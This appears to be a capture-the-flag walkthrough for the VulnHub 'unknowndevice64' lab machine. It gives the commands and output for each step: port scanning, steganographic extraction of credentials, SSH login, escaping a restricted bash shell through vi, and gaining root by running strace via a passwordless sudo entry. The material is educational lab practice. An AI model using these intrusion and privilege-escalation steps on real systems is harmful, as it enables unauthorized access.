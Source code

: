 # unknowndevice64  
  
**URL: https://www.vulnhub.com/entry/unknowndevice64-1,293/**  
  
### NMAP  
  
root@kali:~# nmap -p- -A 192.168.111.3  
>Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-17 04:32 CDT  
>mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers  
>Nmap scan report for 192.168.111.3  
>Host is up (0.00055s latency).  
>Not shown: 999 closed ports  
>PORT      STATE SERVICE VERSION  
>1337/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)  
>| ssh-hostkey:   
>|   2048 b9:af:04:6d:f1:8c:59:3a:d6:e1:96:b7:f7:fc:57:83 (RSA)  
>|   256 12:68:4c:6b:96:1e:51:59:32:8a:3d:41:0d:55:6b:d2 (ECDSA)  
>|_  256 da:3e:28:52:30:72:7a:dd:c3:fb:89:7e:54:f4:bb:fb (ED25519)  
>31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)  
>|_http-title:    Website By Unknowndevice64     
>MAC Address: 08:00:27:36:D1:DD (Oracle VirtualBox virtual NIC)  
>Device type: general purpose  
>Running: Linux 3.X|4.X  
>OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4  
>OS details: Linux 3.2 - 4.9  
>Network Distance: 1 hop  
  
### HTTP  
  
Checking the source code of the html page we find this clue:  
  
"Not a visible enthusiasm but a <span style="color:red">h1dd3n</span> one, an excitement burning with a cold flame."  
  
And a comment:  
  
\<!-- key_is_h1dd3n.jpg --\>  
  
It is an image with just the following message:  
  
>HIDDEN SECRETS  
  
Let's download it and play a little:  
  
root@kali:~# wget http://192.168.111.3:31337/key_is_h1dd3n.jpg  
>--2019-04-17 04:37:27--  http://192.168.111.3:31337/key_is_h1dd3n.jpg  
>Connecting to 192.168.111.3:31337... connected.  
>HTTP request sent, awaiting response... 200 OK  
>Length: 5386 (5.3K) [image/jpeg]  
>Saving to: ‘key_is_h1dd3n.jpg’  
>  
>key_is_h1dd3n.jpg                     100%[========================================================================>]   5.26K  --.-KB/s    in 0s        
>  
>2019-04-17 04:37:27 (365 MB/s) - ‘key_is_h1dd3n.jpg’ saved [5386/5386]  
  
Let's try to extract a message with the previous clue:  
  
root@kali:~# steghide extract -sf key_is_h1dd3n.jpg -p h1dd3n  
>wrote extracted data to "h1dd3n.txt".  
  
root@kali:~# cat h1dd3n.txt   
> ++++++++++\[>+>+++>+++++++>++++++++++<<<<-\]>>>>+++++++++++++++++.-----------------.<----------------.--.++++++.---------.>-----------------------.<<+++.++.>+++++.--.++++++++++++.>++++++++++++++++++++++++++++++++++++++++.-----------------.  
  
Easy. It looks like brainfuck code. Decodeing the file we get credentials:  
  
>ud64:1M!#64@ud  
  
### SSH  
  
We log in the ssh using the credentials we just got:  
  
root@kali:~# ssh -l ud64 -p 1337 192.168.111.3  
>The authenticity of host '[192.168.111.3]:1337 ([192.168.111.3]:1337)' can't be established.  
>ECDSA key fingerprint is SHA256:i17eNafYZbuhnBTVOd3NGK7az/9ZPgwR8GQzqGenV9g.  
>Are you sure you want to continue connecting (yes/no)? yes  
>Warning: Permanently added '[192.168.111.3]:1337' (ECDSA) to the list of known hosts.  
>ud64@192.168.111.3's password:   
>Last login: Mon Dec 31 08:37:58 2018 from 192.168.56.101  
  
ud64@unknowndevice64_v1:~$ id  
>uid=1000(ud64) gid=1000(ud64) groups=1000(ud64)  
  
### Breaking out  
  
ud64@unknowndevice64_v1:~$ hostname  
>-rbash: hostname: command not found  
  
Great, a restricted bash shell... Let's see what we can doo...  
  
ud64@unknowndevice64_v1:~$ echo $PATH  
>/home/ud64/prog  
  
ud64@unknowndevice64_v1:~$ cd   
>.bash_history  .bash_profile  .config/       .screenrc      Desktop/       Documents/     Downloads/     Music/         Pictures/      Public/        Videos/        prog/          web/    
  
ud64@unknowndevice64_v1:~$ cd prog/  
>date    id      vi      whoami    
  
So we can open a text editor. It should be easy to break through:  
  
ud64@unknowndevice64_v1:~$ vi test  
  
We type :!/bin/bash  
  
bash-4.4$ id  
>uid=1000(ud64) gid=1000(ud64) groups=1000(ud64)  
  
bash-4.4$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin  
  
### Privilege escalation  
  
What could we do with sudo privileges?  
  
bash-4.4$ sudo -l  
>User ud64 may run the following commands on unknowndevice64_v1:  
>    (ALL) NOPASSWD: /usr/bin/sysud64  
  
What is sysud64?  
  
bash-4.4$ /usr/bin/sysud64 -h | head -n 20  
>usage: strace [-CdffhiqrtttTvVwxxy] [-I n] [-e expr]...  
>              [-a column] [-o file] [-s strsize] [-P path]...  
>              -p pid... / [-D] [-E var=val]... [-u username] PROG [ARGS]  
>   or: strace -c[dfw] [-I n] [-e expr]... [-O overhead] [-S sortby]  
>              -p pid... / [-D] [-E var=val]... [-u username] PROG [ARGS]  
  
Okay, it's just "strace". Let's try it out. Just remember to put the -o flag to silence the output.  
  
bash-4.4$ sudo /usr/bin/sysud64 -o /dev/null id  
>uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)  
  
  
Now we open a shell and profit ^^  
  
bash-4.4$ sudo /usr/bin/sysud64 -o /dev/null /bin/bash  
root@unknowndevice64_v1:/home/ud64# id  
>uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)  
  
root@unknowndevice64_v1:~# md5sum /root/flag.txt   
>0ff8fb9017a986916260a436371ed330  /root/flag.txt  
